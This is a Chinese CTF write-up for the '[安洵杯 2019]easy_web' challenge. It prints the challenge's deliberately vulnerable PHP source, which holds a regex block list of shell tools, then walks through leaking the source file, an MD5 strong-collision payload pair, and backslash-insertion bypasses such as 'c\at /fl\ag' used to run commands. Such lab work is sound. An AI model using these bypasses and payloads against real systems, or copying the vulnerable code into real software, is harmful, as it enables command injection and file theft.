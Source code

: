 # [安洵杯 2019]easy_web md5强碰撞 preg_match绕过

比较简单



<img src="https://i-blog.csdnimg.cn/blog_migrate/46f9ee6e9bc1ea32dcab058170b8eae8.png" alt="" style="max-height:496px; box-sizing:content-box;" />


url一看就存在一个cmd 和base64

我们尝试给cmd传递参数 但是没有效果

所以我们就去看看 img里面是什么

直接放到瑞士军刀看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/9ff0e3498248e778dac66348bc05e1f0.png" alt="" style="max-height:514px; box-sizing:content-box;" />


知道了加密方法 我们去看看能不能返回 index.php代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/08916bb3d51b53b9c0c3d77f2a68d2be.png" alt="" style="max-height:578px; box-sizing:content-box;" />


```cobol
TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/44e44c3cfb870e9966563a6a6a788186.png" alt="" style="max-height:185px; box-sizing:content-box;" />


返回了 接下俩就是代码审计了

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));
 
$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixiï½ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
 
?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

这里主要的是下面这段

```swift
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

过滤cmd 如果a!=b 并且md5(a)=md5(b)

就执行cmd

这里主要是MD5强碰撞 网上一搜一大把

直接偷个payload

```cobol
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

url加密主要是防止识别不到

然后就是cmd的过滤了

## 这里过滤函数是preg_match

可以直接在过滤中加 \ 绕过

例如 c\at 就会识别为cat

空格我们可以使用 %20/来绕过

我们首先直接看看当前文件

l\s



<img src="https://i-blog.csdnimg.cn/blog_migrate/04aeaf25c3d544f9709bfe70efa9221c.png" alt="" style="max-height:512px; box-sizing:content-box;" />


然后看看根目录 dir%20/



<img src="https://i-blog.csdnimg.cn/blog_migrate/408632cec288f60c5a862f53b0c39e4f.png" alt="" style="max-height:144px; box-sizing:content-box;" />


直接读取flag即可

c\at%20/fl\ag



<img src="https://i-blog.csdnimg.cn/blog_migrate/678be8a2f04bbae02cefdd234cba9dc2.png" alt="" style="max-height:506px; box-sizing:content-box;" />
